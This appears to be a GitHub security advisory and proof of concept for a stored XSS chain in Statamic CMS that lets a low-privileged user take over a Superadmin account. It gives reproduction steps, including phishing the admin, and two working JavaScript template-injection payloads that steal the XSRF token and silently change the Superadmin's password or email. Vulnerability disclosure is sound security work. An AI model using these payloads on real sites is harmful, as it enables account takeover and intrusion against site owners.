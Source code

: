 # GHSA-g59r-24g3-h7cm
Statamic Privilege Escalation PoC

> [!IMPORTANT]
> **Responsible Disclosure Notice**  
> This vulnerability was reported to the vendor/maintainer ([Statamic](https://github.com/statamic)) following a responsible disclosure process.  
> The maintainer was given more than **90 days** to acknowledge the security advisory and provide a fix, in line with industry-standard disclosure policies.  
> Despite multiple attempts to establish communication, there was **no cooperation, no response, and a clear lack of good will from the maintainer** to address the issue.
>  
> The **CVE has not yet been assigned solely due to the unresponsiveness of the maintainer**, not due to a lack of technical validity or impact.  
> The CVE request is currently in progress and will be finalized through public disclosure channels.


### Summary
There is a critical vulnerability in the Laravel-based content management system (CMS) Statamic that can be exploited to take over a Superadmin account. This issue comes from a combination of stored Cross-Site Scripting (XSS) vulnerabilities, which remain exploitable even in the latest version of the CMS. These vulnerabilities allow attackers to run malicious JavaScript in the victim's browser. A low-privileged user can inject harmful content into the CMS, setting a trap for the Superadmin. When the Superadmin accesses this content, the exploit runs in their session, enabling the attacker to gain higher privileges and potentially take over the system.

This problem is also related to the lack of proper server-side validation of the X-CSRF-TOKEN used in PATCH requests, which makes it easier for the attacker to change important account details like the Superadmin's password or email address.

This advisory explains the technical details, provides proof-of-concept exploits, and discusses the risks posed by these vulnerabilities, focusing on how the attack can be carried out.

### Vulnerability Overview
#### Severity: **Critical**
#### Affected Versions: **Up to and including the latest version 5.22.0**

This vulnerability is a chain attack that leverages stored XSS to escalate privileges within the CMS. It is essential to note that for this attack to be successful, the Superadmin must either click on a malicious link sent by an attacker or simply visit a compromised Collection or Taxonomy within the CMS. Once the Superadmin interacts with the infected content, the malicious JavaScript code is executed in their browser, leading to one of two potential outcomes:

1. **In versions ≤ 5.21.0**: The attacker can automatically change the Superadmin's password without requiring the current password, effectively locking the legitimate user out of their account.
2. **In version 5.22.0**: Although the password change mechanism has been secured, the attacker can still change the email address associated with the Superadmin account. This allows the attacker to initiate a password reset, gain control of the account, and access the system with the highest level of privileges.


### Steps to Reproduce

The following steps outline how to reproduce the vulnerability that allows for Superadmin account takeover via Stored Cross-Site Scripting (XSS) and insufficient X-CSRF-TOKEN validation:

1. **Create a Superadmin Account ("User1"):**
   - If this is a fresh installation, create a Superadmin account within the CMS. This account will be referred to as "User1."

2. **Create a Low-Privileged User ("User2"):**
   - Using the Superadmin account ("User1"), create a new user with low-level privileges, referred to as "User2."
   - Assign "User2" access to the Control Panel, the User list, and grant read-write permissions to Collections and/or Taxonomies.

3. **Initiate a Session as "User2":**
   - Log in as "User2" to the CMS.

4. **Inject Malicious Script:**
   - Create a new Collection or Taxonomy within the CMS as "User2."
   - Inject a malicious JavaScript payload into one of the fields that will be stored and rendered when viewed by the Superadmin.

5. **Trigger the Exploit:**
   - Wait for "User1" (the Superadmin) to access the compromised Collection or Taxonomy. This can be done by either:
     - Sending a phishing link that directs "User1" to the infected content.
     - Simply waiting for "User1" to browse the Collections or Taxonomies naturally.

6. **Observe the Outcome:**
   - Depending on the CMS version:
     - **Version ≤ 5.21.0:** The malicious script will change the Superadmin's password without requiring the current password, effectively locking the legitimate user out of their account.
     - **Version 5.22.0:** The malicious script will change the Superadmin's email address, allowing the attacker to initiate a password reset and gain control over the account.

These steps demonstrate how a low-privileged user can set up a trap for the Superadmin by exploiting the stored XSS vulnerability. The lack of proper server-side validation of the X-CSRF-TOKEN in PATCH requests makes it possible to carry out this attack, leading to a complete takeover of the Superadmin account.


### Details
The root cause of this vulnerability lies in insufficient input sanitization and validation across several components of the CMS. Specifically, the vulnerability allows for the injection of JavaScript code into forms used for creating or editing Collections, Taxonomies or Forms. These forms do not properly sanitize user input, allowing an attacker to store malicious scripts that execute when a Superadmin interacts with the compromised content.

In previous versions of the CMS, such as version 4.42.0, user inputs in certain views were not properly sanitized before being rendered on the page. For instance, in the `resources/views/partials/nav-main.blade.php` file, the variable `$item->name()` was rendered without adequate escaping or encoding. This lack of sanitization allowed attackers to inject arbitrary JavaScript code.

It looks like the vulnerability related to improper sanitization of user input, such as those found in version 4.42.0 of the Statamic CMS, is still present in the software, despite partial mitigations that have been implemented. In previous versions, like 4.42.0, user input in certain views, including the `resources/views/partials/nav-main.blade.php` file, were not adequately sanitized before being rendered on the page.

At the time of reporting the Multiple Stored Cross-Site Scripting vulnerability, version 4.42.0 was the latest available version of the Statamic CMS. Now, the software has been updated to version 5.22.0. While some improvements, such as the introduction of the `v-pre` directive, have been made to mitigate XSS risks in specific components, these mitigations appear to be incomplete. The underlying issue of inadequate input sanitization persists in other parts of the software.

For further details on the changes made, including the use of `v-pre`, please refer to the Reference section at the bottom of this Security Advisory. There is a link to a commit that shows the differences between certain versions of the affected file, highlighting the partial mitigation that was applied.

### PoC
#### Scenario 1: Superadmin Password Change (Version == 5.21.0)
> [!IMPORTANT] 
> In the `5.21.0` version, the CMS's password change mechanism did not require the current password. This allows an attacker to execute a stored XSS payload that automatically changes the Superadmin's password. The attack can be triggered by the Superadmin merely visiting a compromised Collection or Taxonomy or clicking on a malicious link.

**Exploit:**

```javascript
{{constructor.constructor("(function(){function getXsrfToken(){var token=decodeURIComponent(document.cookie.match(/XSRF-TOKEN=([^;]+)/)[1]);return token.endsWith('%3D')?token.replace(/%3D$/, '='):token;}var req=new XMLHttpRequest();req.onload=function(){var changeReq=new XMLHttpRequest();changeReq.open('PATCH','http://0.0.0.0/cp/users/<Superadmin's UUID>/password',true);changeReq.setRequestHeader('Content-Type','application/json');changeReq.setRequestHeader('X-Requested-With','XMLHttpRequest');changeReq.setRequestHeader('X-XSRF-TOKEN',getXsrfToken());changeReq.send(JSON.stringify({current_password:null,password:'987654321',password_confirmation:'987654321'}));};req.open('GET','/cp/users/<Superadmin's UUID>/edit',true);req.send();})()")()}}
```

#### Scenario 2: Superadmin Email Address Change (Version ≤ 5.21.0)
> [!IMPORTANT] 
> In the latest version (5.22.0), the password change mechanism was hardened by requiring the current password. However, the stored XSS vulnerability still allows an attacker to change the email address associated with the Superadmin account. By altering the email address, the attacker can initiate a password reset process, gaining control over the account.

**Exploit:**

```javascript
{{constructor.constructor("(function(){function getXsrfToken(){var token=decodeURIComponent(document.cookie.match(/XSRF-TOKEN=([^;]+)/)[1]);return token.endsWith('%3D')?token.replace(/%3D$/, '='):token;}var req=new XMLHttpRequest();req.onload=function(){var changeReq=new XMLHttpRequest();changeReq.open('PATCH','http://0.0.0.0/cp/users/<Superadmin's UUID>',true);changeReq.setRequestHeader('Content-Type','application/json');changeReq.setRequestHeader('X-Requested-With','XMLHttpRequest');changeReq.setRequestHeader('X-XSRF-TOKEN',getXsrfToken());changeReq.send(JSON.stringify({name:'wojt',email:'wojtek@wojtek.com',roles:[],groups:[],id:'9f4d7960-bf66-4af4-8c30-b09eb24e06ea'}));};req.open('GET','/cp/users/<Superadmin's UUID>/edit',true);req.send();})()")()}}
```

### Impact
The successful exploitation of this vulnerability allows an attacker to gain full control over the Superadmin account, leading to:

- Complete administrative access to the Statamic CMS.
- Potential for lateral movement within the application.
- Significant risk of data leakage, modification, or deletion.
- Undermining the integrity and confidentiality of the entire Statamic CMS ecosystem.

### References
- https://github.com/statamic/cms/pull/9256/commits/d9f1e916556e749a03fba6163de6cd67c3830ffd

---

**PoC video:**

[![Watch the PoC on YouTube](https://img.youtube.com/vi/qx8axpmTz1E/maxresdefault.jpg)](https://www.youtube.com/watch?v=qx8axpmTz1E)

